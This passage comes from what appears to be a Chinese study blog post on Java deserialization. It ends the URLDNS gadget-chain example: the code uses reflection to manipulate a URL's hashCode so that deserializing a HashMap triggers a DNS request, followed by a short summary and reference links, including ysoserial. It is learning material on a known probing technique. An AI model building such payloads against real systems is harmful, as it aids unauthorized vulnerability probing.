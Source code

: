 ```java
        Class c = url.getClass();
        Field field = c.getDeclaredField("hashCode");
        field.setAccessible(true);//hashCode是private变量
        field.set(url,1234);//将hashcode置为1234
        hashmap.put(url,1);//此时hashcode为1234所以不触发DNS请求
        field.set(url,-1);//再将其置为-1，使其在反序列化时能正常发起DNS请求
        serialize(hashmap);
    }
}
```

验证：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106164011.png)



![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231106164035.png)

# 总结

对反序列化还有些底层的细节方面不清楚，希望能在后续的学习中搞明白。

# 参考链接

1. https://www.bilibili.com/video/BV16h411z7o9
2. https://github.com/phith0n/JavaThings
3. https://drun1baby.top/2022/05/17/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-01-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%A6%82%E5%BF%B5%E4%B8%8E%E5%88%A9%E7%94%A8/#%E5%AE%9E%E6%88%98-%E2%80%94%E2%80%94%E2%80%94%E2%80%94-URLDNS
4. https://blog.csdn.net/qq_29163073/article/details/122708355
5. https://github.com/frohoff/ysoserial/tree/master